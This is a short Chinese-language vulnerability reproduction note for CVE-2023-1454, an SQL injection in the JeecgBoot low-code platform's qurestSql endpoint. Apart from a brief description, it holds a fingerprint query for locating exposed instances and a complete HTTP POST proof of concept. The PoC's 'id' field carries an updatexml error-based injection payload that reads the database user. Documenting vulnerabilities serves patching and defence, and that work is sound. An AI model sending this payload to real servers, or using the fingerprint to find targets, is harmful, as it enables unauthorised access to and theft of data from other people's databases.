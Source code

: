 # 

# JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

JeecgBoot 企业级低代码平台

## 网络测绘

```
app="JeecgBoot-企业级低代码平台"
```

## 漏洞复现

登陆页面

![image-20230504140737296](images/image-20230504140737296.png)

验证POC

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![image-20230504140757639](images/image-20230504140757639.png)
